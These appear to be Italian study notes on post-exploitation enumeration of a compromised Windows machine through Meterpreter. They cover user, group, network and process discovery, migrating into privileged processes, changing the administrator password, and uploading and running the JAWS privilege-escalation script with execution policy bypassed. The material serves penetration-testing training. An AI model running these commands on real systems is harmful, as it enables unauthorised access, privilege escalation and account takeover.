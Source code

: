 
# Windows local enumeration
Quando otteniamo l'accesso ad un sistema windows, la prima fase é quella che consiste nel enumerare il sistema ottenendo l'id del utente attuale e informazioni sul sistema. 
```bash
meterpreter > getuid
meterpreter > sysinfo
meterpreter > cd C:/Windows/System32
meterpreter > cat eula.txt                               # file che da altre informazioni sul sistema operativo 
meterpreter > shell
#comandi windows
hostname
systeminfo
wimc qfe get Caption,Description,HotFixID,InstalledOn     # per avere altre informazioni sugli hotfixs (patch)

```

### Enumerare Utenti e Gruppi
Serve per vedere l'utente attuale e che permessi ha e di che gruppo fa parte. <br>
possiamo anche ottenere gli utenti che fanno parte del gruppo amministratori per poter tentare di exploitarli. <br> 
```bash
meterpreter > getprivs                                    # per visualizzare gli attuali permessi
meterpreter >  background
use post/windows/gather/enum_logged_on_users              # modulo per enumerare gli utenti su un target windows
set session 1
run
sessions 1
meterpreter > shell
# enumerazione utenti manuale
whoami
whoami /priv                                              # enumerare i permessi attuali
query user                                                 # per visualizzare gli utenti collegati e quando
net users                                                  # enumerare tutti gli utenti nel sistema
net user administrator                                     # ottenere informazioni sul account amministratore (possiamo mettere qualisasi nome utente)
net user Administrator NuovaPassword1234                   # per cambiare la password dell'account administrator se si hanno alti privilegi
net localgroup                                             # enumerare tutti i gruppi presenti sul sistema
net localgroup administrators                              # visualizzare i componenti del gruppo administrators (possiamo mettere qualsiasi nome gruppo)
```

### Enumerare le informazioni di rete
Abbiamo anche bisogno di poter enumerare gli attuali indirizzi per poter identificare le impostazioni di rete interne e i servizi in esecuzione sulle porte TCP/UDP.
```bash
meterpreter > shell
ipconfig
ipconfig /all
route print                                                              # visualizzare la routing table
for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.0.%i | find "TTL="   # per pingare tutti gli host presenti nella rete 192.168.0.0 (puoi cambiarla)
arp -a                                                                   # aprire la arp table e visualizzare gli altri host collegati alla stessa rete del target
netsat -ano                                                               # per visualizzare la lista dei servizi attualmente in esecuzione o in ascolto
netsh firewall show state
#oppure
netsh advfirewall show allprofile
```

### Enumerare i processi
Enumerare i processi é importante per poter migrare la sessione meterpreter verso un processo con privileggi superiori e quindi effettuare un privilege escalation, e per poter identificare delle task con debbolezze nella configurazione per poterle exploitare. <br>
```bash
meterpreter > ps                          # mostra i processi attualmente in esecuzione e dovviamo fare caso al PID e al USER che sia NT AUTHORITY
meterpreter > pgrep <PROCESSNAME>         # per cercare il pid di un determianto processo. Preferiamo sempre cercare il processo explorer.exe
meterpreter > migrate <PID>
meterpreter > shell
net start                                  # mostrare i servizi (non sono processi, i servizi lavorano in background)
wmic service list brief                   # mostra i servizi in esecuzione
tasklist /svc                            # mostra i processi in esecuzione sotto un determinato processo
schtasks /query /fo LIST /v               # mostra le sheduled tasks 
```

### Automatizzare la local enumeration
Esistono alcuni scripts che permettono di enumerare tutte le infgormazioni ottenute precedentemente in modo automatico <br>
Uno script interessante é JAWS (Just Another Windows (enumeration) Script) che é possibile scaricare tramite questo <a href="https://github.com/411Hall/JAWS">link</a> <br>
JAWS é uno script che permette di identificare potenziali vettori per un privilege escalation ed é scritto in PowerShell 2.0 quindi dovrebbe poter girare su tutte le versioni superiori di windows 7. <br>
per poterlo usare basta copiare il raw del file .ps1 e incollarlo in un file .ps1 sulla nostra macchina kali per poi inniettarlo sul target tramite una sessione meterpreter
```bash
meterpreter > cd C:/Temp
meterpreter > upload path/di/JAWS.ps1
meterpreter > shell
dir                           # per confermare che il file é stato uploadato con successo
powershell.exe -ExecutionPolicy Bypass -File .\JAWS.ps1 -OutputFilename JAWS-ENUM.txt
# questo comando indica a windows che vogliamo eseguire tramite powershell lo script JAWS e salvare i risultati nel file JAWS-ENUM.txt
# torniamo ora su meterpreter, premendo CTRL+C, per poter scaricare il file creato da JAWS
meterpreter > download JAWS-ENUM.txt
```

